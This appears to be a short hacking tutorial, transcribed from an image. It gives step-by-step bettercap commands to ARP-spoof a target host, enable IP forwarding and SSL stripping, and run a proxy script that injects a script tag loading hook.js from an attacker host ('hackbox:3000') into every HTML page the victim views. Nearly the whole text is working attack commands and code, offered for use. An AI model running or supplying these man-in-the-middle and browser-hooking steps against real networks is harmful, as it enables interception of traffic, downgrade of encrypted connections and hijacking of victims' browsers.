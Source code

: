 Perform ARP spoofing attack:

	sudo bash -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'

	sudo bettercap
	set arp.spoof.targets 10.0.2.4
	set arp.spoof.fullduplex true
	arp.spoof on

Create a script:

	nano myscript.py

	function onResponse(req, res) {
	    if( res.ContentType.indexOf('text/html') == 0 ){
	        var body = res.ReadBody();
	        if( body.indexOf('</head>') != -1 ) {
	            res.Body = body.replace( 
	                '</head>', 
	                '<script type="text/javascript" src="http://hackbox:3000/hook.js"></script></head>' 
	            );
	        }
	    }
	}

Inject the script on the proxy:

	set http.proxy.script /home/user/Desktop/myscript.py
	set http.proxy.sslstrip true
http.proxy on